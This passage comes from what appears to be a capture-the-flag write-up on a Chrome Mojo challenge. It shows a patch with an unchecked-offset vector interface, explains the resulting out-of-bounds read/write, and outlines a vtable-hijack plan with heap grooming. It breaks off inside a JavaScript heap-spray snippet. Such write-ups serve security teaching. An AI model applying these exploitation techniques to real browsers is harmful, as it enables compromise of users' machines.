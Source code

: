 ```diff
+  static void Create(
+      mojo::PendingReceiver<blink::mojom::CtfInterface> receiver);
+
+  void ResizeVector(uint32_t size, ResizeVectorCallback callback) override;
+  void Write(double value, uint32_t offset, WriteCallback callback) override;
+  void Read(uint32_t offset, ReadCallback callback) override;
+
+ private:
+  std::vector<double> numbers_;
+  DISALLOW_COPY_AND_ASSIGN(CtfInterfaceImpl);
+};

//.......omitted...........

+interface CtfInterface {
+  ResizeVector(uint32 size) => ();
+  Read(uint32 offset) => (double value);
+  Write(double value, uint32 offset) => ();
+};

```

As we can see in the patch file, the interface implements three functions to allow us interact with the browser process :

* `resizeVector` : This function allow us to allocate a double vector ( `std::vector<double> numbers_` ) in `CtfInterface`.
* `read` : This function allow us to read a double value from `numbers_`.
* `write` : This function will write a double value to `numbers_`.

The vulnerability is pretty obvious : the `read` and `write` function allow us to read/write a double value from/to a arbitrary offset of the `numbers_` vector, creating a OOB read/write situation.

Here our exploit plan is simple : use the OOB read to leak some address, and use the OOB write to corrupt the vtable of the `CtfInterfaceImpl` object and hijack the control flow.

First we'll have to arrange our heap layout. Our goal is to try place a `CtfInterfaceImpl` object right behind the `numbers_` vector, so later we can use OOB read/write on this `numbers_` to corrupt the `CtfInterfaceImpl` object.

After some trial and error, and lots of debugging with gdb, we were finally able to achieve this by using the following method:

* Create lots of `CtfInterfaceImpl` objects first. These objects will have high probability to be placed on a continuous heap memory.
* Free those `CtfInterfaceImpl` objects, this will create lots of free chunks ( size: 0x20 )
* Re-allocate those 0x20 free chunks by creating lots of `CtfInterfaceImpl` with a size 4 `numbers_` vector ( which will also allocate a 0x20 heap chunk ). The allocation sequence of `CtfInterfaceImpl` -> `size 4 numbers_` -> `CtfInterfaceImpl` -> `size 4 numbers_`... will probably results in a `CtfInterfaceImpl` object being placed right behind a size 4 `numbers_` vector. 

Here's the Javascript snippet:


```javascript
A = [];
B = [];
let i = 0;

// First allocate lots of CtfInterfaceImpl object
for (i = 0 ; i < 0x1000 ; i++) {
    A.push(null);
    A[i] = new blink.mojom.CtfInterfacePtr();
    Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(A[i]).handle);
}

// Free all the CtfInterfaceImpl, creating lots of free chunk ( size: 0x20 )
for (i = 0 ; i < 0x1000 ; i++) {
```